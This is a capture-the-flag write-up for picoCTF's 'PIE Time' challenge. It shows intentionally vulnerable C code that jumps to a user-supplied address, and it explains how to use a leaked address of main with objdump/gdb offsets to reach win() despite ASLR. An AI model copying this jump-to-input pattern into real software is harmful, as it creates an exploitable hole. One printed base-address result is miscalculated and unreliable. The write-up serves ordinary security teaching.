






# PIE TIME

**Platform:** picoCTF  
**Category:** Binary Exploitation 
**Difficulty:** Easy  
**Tags:** `C` `memory address` `PIE binary`

---

## Challenge Description

**Author:** Darkraicg492

**Description**

Can you try to get the flag? Beware we have PIE! Connect to the program with netcat:

$ nc rescued-float.picoctf.net 55744

The program's source code can be downloaded here. The binary can be downloaded here.


```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
---

## Reconnaissance

This C program has 3 key functions:

| Function | Purpose |
|----------|---------|
| `segfault_handler()` | Called when the wrong address is entered |
| `win()` | Prints `"You won!"` and the contents of `flag.txt` |
| `main()` | Runs the program, leaks its own address, and prompts for input |

The goal is to make the program jump to `win()`.

---

### Background — Position-Independent Executables (PIE)

In a traditional executable, code is always loaded at a **fixed memory address**. In a **PIE binary**, the entire program is loaded at a **random base address** every time it runs. This is a security mechanism called **ASLR (Address Space Layout Randomisation)**. This is a security mechanism because the memory address at which code and data runs is randomised making it less predictable. This makes it harder for attackers to guess function addresses which makes it hard to know where to inject code. 

Key insight: while the **base address** changes each run, the **offset** of every function from that base address is always constant. Therefore, even though the runtime base address changes, if you somehow find the address of a function and you know the offset of the function, you can use it to work out other runtime addresses of other functions 

This gives us a usable formula:

```
Runtime address = Base address + Offset
```

And rearranged:

```
Base address = Runtime address − Offset
```

The server leaks the runtime address of `main`. If we also know `main`'s offset (from static analysis), we can calculate the base address and then calculate the runtime address of any other function.

---

## Solving the challenge

### 1. Get the Runtime Address of main

When you connect to the server, the program gives you the address of main (being the main function) and it asks you to enter the address to jump to:



---

### 2. Find the Offset of main

Use either `objdump` or `gdb` to disassemble the binary and read the static offset of `main`:

```bash
# objdump
objdump -d vuln | grep "<main>"
```



```bash
# gdb
gdb ./vuln
(gdb) info address main
```

Note the offset shown (`0x133d`).



---

### 3. Calculate the Base Addres

```
Base address = Runtime address of main − Offset of main
```

Example (using Python for hex arithmetic):

```python
runtime_main = 0x5f23fbd5e33d
offset_main  = 0x133d
base_address = runtime_main - offset_main
print(hex(base_address))
# → 0x5f23fbbd000
```
---

### 4. Find the Offset of win()

objdump:



Gdb:



Note the offset (`0x12a7`)

---

### 5. Calculate the Runtime Address of win()

```
Runtime address of win() = Base address + Offset of win()
```

```python
offset_win   = 0x12a7
runtime_win  = base_address + offset_win
print(hex(runtime_win))
# → 0x5f23fbd5e2a7
```

---

### 5. Submit the address

Enter the hex result when the program prompts for an address:

```
Enter address to jump to: 0x5f23fbd5e2a7
```

The program jumps to `win()` and prints the flag.



---

## Flag

```
picoCTF{b4s1c_xxxxxxxx_xxxxxxxxxxxx_xxxxxxxx}
```
*(Flag redacted)*

---

## Key takeaways

| # | Lesson |
|---|--------|
| 1 | **PIE binaries** load at a random base address each run — this is ASLR in action |
| 2 | Function **offsets** are constant even when the base address changes, therefore leaking one runtime address unlocks all others |
| 3 | `objdump -d` and `gdb info address` both reveal static function offsets from a binary |
| 4 | The formula `runtime address = base address + offset` is fundamental to PIE exploitation |


---
*← [Back to Binary Exploitation](../../) | [Back to picoCTF](../../../)*
